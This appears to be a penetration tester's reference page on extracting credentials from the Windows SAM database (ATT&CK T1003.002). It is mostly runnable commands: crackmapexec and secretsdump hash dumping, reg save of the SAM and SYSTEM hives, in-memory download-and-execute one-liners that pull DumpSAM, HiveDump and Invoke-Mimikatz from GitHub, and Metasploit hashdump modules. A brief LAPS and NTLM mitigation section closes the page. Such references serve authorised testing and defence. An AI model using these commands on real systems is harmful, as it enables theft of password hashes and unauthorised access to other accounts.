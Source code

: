 ```yaml
---
date: 
tags:
---
```


```table-of-contents
```

---
description: https://attack.mitre.org/techniques/T1003/002/
---

# Security Account Manager (SAM)

**ATT\&CK ID:** [T1003.002](https://attack.mitre.org/techniques/T1003/002/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored. The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command. Enumerating the SAM database requires SYSTEM level access.

## Linux Techniques

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -p <Password> --sam

# Use the local-auth parameter when authenticating as a local account
crackmapexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

![](../../../Assets/Pasted%20image%2020250619220402.png)

### Secretsdump

```bash
# Dump from SAM and SYSTEM. Ensure files are in current working directory
secretsdump.py -sam SAM -system SYSTEM LOCAL 
```

![](../../../Assets/Pasted%20image%2020250619220419.png)

## Windows Techniques

```powershell
# Manually save SAM and SYSTEM files (if needed for any tools below)
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

### DumpSam

This tool will filter out some default accounts such as Guest and the wdagutilityaccount account from the results.

Github: [https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1](https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1)

```powershell
# Download and execute
IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/DumpSAM.ps1)
```

### HiveDump

Github: [https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1](https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1)

```powershell
# Load into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/tmenochet/PowerDump/master/HiveDump.ps1)

# Dump
Invoke-HiveDump
```

### Mimikatz

Github: [https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1)

<pre class="language-powershell"><code class="lang-powershell"><strong># Load into memory
</strong><strong>IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")
</strong><strong>
</strong><strong># Dump from SAM and SYSTEM. Enusre files are in current working directory
</strong>Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the live hive files

Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
</code></pre>

## Metasploit

```bash
# Modules
use post/windows/gather/hashdump
use post/windows/gather/credentials/credential_collector

# Meterpreter Shell
hashdump

# Extension:Kiwi
lsa_dump_s
```

![](../../../Assets/Pasted%20image%2020250619220438.png)

## Mitigation

### LAPS

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=46899" %}

### Restrict NTLM Traffic

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/jj865668(v=ws.10)?redirectedfrom=MSDN" %}
